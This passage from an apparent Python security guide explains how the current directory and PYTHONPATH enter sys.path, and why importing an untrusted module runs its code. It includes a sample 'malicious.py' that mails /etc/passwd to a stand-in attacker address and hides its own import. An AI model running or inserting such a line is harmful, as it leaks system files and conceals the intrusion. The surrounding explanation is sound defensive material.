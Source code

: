 On Windows platform, instead of script location, current working directory of
the Python process is [injected](https://docs.python.org/3/using/windows.html
#finding-modules) into the search path. On UNIX platforms, current working
directory is automatically inserted into `sys.path` whenever program code is
read from stdin or command line ("-" or "-c" or "-m" options):

[code]

       $ echo "import sys, pprint; pprint.pprint(sys.path)" | python -
       ['',
        '/usr/lib/python3.3/site-packages/pip-7.1.2-py3.3.egg',
        '/usr/lib/python3.3/site-packages/setuptools-20.1.1-py3.3.egg',
        ...]
       $ python -c 'import sys, pprint; pprint.pprint(sys.path)'
       ['',
        '/usr/lib/python3.3/site-packages/pip-7.1.2-py3.3.egg',
        '/usr/lib/python3.3/site-packages/setuptools-20.1.1-py3.3.egg',
        ...]
       $
       $ cd /tmp
       $ python -m myapp
       ['',
        '/usr/lib/python3.3/site-packages/pip-7.1.2-py3.3.egg',
        '/usr/lib/python3.3/site-packages/setuptools-20.1.1-py3.3.egg',
        ...]
    
[/code]

To mitigate the risk of module injection from current working directory
explicitly changing directory to a safe one is recommended prior to running
Python on Windows or passing code through command line.

Another possible source for the search path is the contents of the
`$PYTHONPATH` environment variable. An easy mitigation against `sys.path`
population from process environment is the `-E` option to Python interpreter
which makes it ignoring `$PYTHONPATH` variable.

## Code execution on import

It may not look obvious that the `import` statement actually leads to
execution of the code in the module being imported. That is why even importing
mistrustful module or package is risky. Importing simple module like this may
lead to unpleasant consequences:

[code]

       $ cat malicious.py
       import os
       import sys
    
       os.system('cat /etc/passwd | mail attacker@blackhat.com')
    
       del sys.modules['malicious']  # pretend it's not imported
       $ python
       >>> import malicious
       >>> dir(malicious)
       Traceback (most recent call last):
       NameError: name 'malicious' is not defined
    